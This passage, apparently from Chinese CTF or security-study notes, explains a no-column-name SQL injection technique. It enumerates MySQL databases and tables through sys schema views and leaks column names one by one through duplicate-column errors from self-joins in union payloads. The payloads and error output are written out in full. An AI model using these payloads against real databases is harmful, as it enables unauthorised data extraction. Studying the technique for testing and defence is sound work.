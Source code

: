 >   **但是这里有个明显的不足就是，无法查询指定数据库中某表的列**

###### ==查询不存在自增列的表==

>   可以使用到`schema_table_statistics_with_buffer`和`x$schema_table_statistics_with_buffer`

```sql
# 查询数据库
select table_schema from sys.schema_table_statistics_with_buffer;
select table_schema from sys.x$schema_table_statistics_with_buffer;

# 查询指定数据库的表
select table_name from sys.schema_table_statistics_with_buffer where table_schema='challenges';
select table_name from sys.x$schema_table_statistics_with_buffer where table_schema='challenges';
```

>   **缺陷也是一样的，无法查询指定数据库中某表的列**

##### 解决无列名（无列名注入）

>   因为sys库替换`information_schema`查询不到列，那么可以使用`join`和`using`把其他列名爆出来，`join`无需多说，

>   `using`就比较陌生，
>
>   -   **它是用来简化连接查询的**，**用于两张表的`join`查询，**
>   -   **要求`using`指定的列在两个表中都存在且同名，使用的位置在`join`后的条件**

```sql
# 示例：
select * from brute as a join brute as b on a.`key` = b.`key`;
#等同于：
select * from brute as a join brute as b using(`key`);

# 这sql目的：A 连B表，根据B表的条件，删除A表的数据（B表的数据不会删除）
```

**利用原理**

>   通过关键字join可建立两个表之间的内连接。通过对**想要查询列名所在的表**与其**自身内连接**，
>
>   会**由于冗余的原因（相同列名存在**），**而发生错误**。**并且报错信息会存在重复的列名**，**可以使用 USING 表达式声明内连接条件来避免报错**
>
>   **在联合查询不成功的情况下尝试使用报错注入的函数得到回显子查询结果的报错结果**

```sql
# 获取第一列的列名
union select * from (select * from brute as a join brute as b) c;
	# 结果
	1060 - Duplicate column name 'key'
# 获取第二列的列名
union select * from (select * from brute as a join brute as b using(`key`)) c;
	# 结果
	1060 - Duplicate column name 'firstRequest'
# 获取第三列的列名
union select * from (select * from brute as a join brute as b using(`key`,firstRequest)) c;
	# 结果
	1060 - Duplicate column name 'lastRequest'
```
